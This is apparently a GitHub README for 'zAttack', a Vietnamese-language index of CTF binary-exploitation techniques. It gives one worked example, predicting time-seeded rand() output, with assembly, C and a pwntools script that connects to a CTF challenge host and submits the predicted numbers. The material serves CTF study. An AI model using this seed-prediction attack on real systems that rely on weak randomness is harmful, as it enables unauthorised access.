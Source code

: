 # zAttack
- Technique and subTechnique support pwnable ctf and exploit.

## [0] Overview
- Integer Overflow
- &environ
- rtld_global
- Canary global TLS
- .fini_array
- Type of Confusion | Type Error
- Command Injection
- Path Traversal
- CGI File Binary
- Logic BUG: seed, permission, ...
    * __RANDOM => seed__: dùng seed có giá trị là thời gian thực lúc chạy chương trình, vì vậy tạo 1 script chạy cùng là xong

    * Nhiệm vụ của srand(x) đưa ra seed x rồi rand() dựa vào x đưa ra số a. Khi đó a là seed cho lần gọi rand() tiếp theo (cứ như thế tiếp tục). Do vậy VD trong vòng lặp thời gian 1 giây rand() dùng seed cũ liên tục nên nó không bao giờ ra số khác nhau trong khoảng thời gian đó.

    * VD: [Meshuggah](https://qbao.home.blog/2020/04/30/start-to-pwnb01lers-ctf/) .
    ```bash
    asm:
        mov edi, 0      ; time
        call _time
        add eax, 2
        mov edi, eax    ; seed
        call _srand
    ```

    ```C
    int main(){
        int seed = time(0) + 2;
        srand(seed);
        for(int i = 0; i < 100; i++)
            printf("%d\n", rand());
        return 0;
    }
    ```
    * Code sample python
    ```python
    from ctypes import CDLL
    from ctypes.util import find_library

    libc = CDLL(find_library("c"))

    libc.srand(0x5a35b162)
    print(libc.rand(), libc.rand(), libc.rand())
    ```
    ```python
    #!/usr/bin/env python3
    from pwn import *
    import random
    import time
    import calendar
    import datetime
    from ctypes import *
    import random
    elf = ELF("./random")
    libc = CDLL("/usr/lib/x86_64-linux-gnu/libc.so.6")
    # p = elf.process()
    p = remote("challs.tfcctf.com", "32615")
    context.update(binary=elf, log_level="DEBUG")
    # gdb.attach(p, '''
    # 	b *vuln
    # 	''')

    current_GMT = time.gmtime()
    time_stamp = calendar.timegm(current_GMT)
    libc.srand(time_stamp)
    print(p.recvline())
    for i in range(10):
        number = libc.rand()
        p.sendline(str(number).encode())


    p.interactive()
    ```

## [1] References:
- https://dreamhack.io/
